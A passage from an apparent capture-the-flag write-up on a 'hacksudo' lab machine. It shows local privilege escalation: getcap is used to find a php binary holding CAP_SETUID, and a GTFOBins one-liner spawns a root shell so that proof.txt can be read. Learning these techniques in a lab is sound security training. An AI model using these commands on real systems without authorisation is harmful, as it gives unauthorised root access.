







5. Privilege Escalation (Second flag)
getcap
We would start by scanning the file system for files with capabilities using
getcap -r / The -r flag tells getcap to search recursively, ‘/‘ to indicate that we want to search the whole system.The output is usually filled with tens or hundreds of “Operation not supported” errors, making it hard to read. We can redirect errors to /dev/null to get a cleaner output.
1. Run “getcap” on the victim's shell machine.
hacksudo@hacksudo:~$getcap -r / 2>/dev/null
Output:

CAP_SETUID capabilities
* Make arbitrary manipulations of process UIDs (setuid(2),
setreuid(2), setresuid(2), setfsuid(2));
* forge UID when passing socket credentials via UNIX
domain sockets;
* write a user ID mapping in a user namespace (see
user_namespaces(7)).
So, you can do arbitray manupilations on “/home/hacksudo/locker/”
2. Go to the "locker" directory and list the files.
hacksudo@hacksudo:~$cd /home/hacksudo/locker
hacksudo@hacksudo:~$ls -al
hacksudo@hacksudo:~$ls -al
3. From https://gtfobins.github.io/#php.

4. Go to “Capabilities”.

5. On the victim's machine shell run the following.
hacksudo@hacksudo:~/locker$ CMD="/bin/sh"
hacksudo@hacksudo:~/locker$ ./php -r "posix_setuid(0); system('$CMD');"
hacksudo@hacksudo:~/locker$ ./php -r "posix_setuid(0); system('$CMD');"
6. Then introduce the following commands.
id
whoami
whoami
Output:


7. Type the following commands.
cd /root
ls -al
ls -al
Output:

8. Catch the flag.
cat proof.txt
Output:
